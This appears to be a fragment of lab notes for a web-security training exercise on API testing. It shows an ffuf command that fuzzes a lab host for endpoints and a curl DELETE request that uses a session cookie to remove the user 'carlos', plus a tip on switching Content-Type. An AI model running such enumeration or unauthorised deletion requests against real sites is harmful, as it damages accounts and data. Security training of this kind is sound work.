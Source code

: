 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.
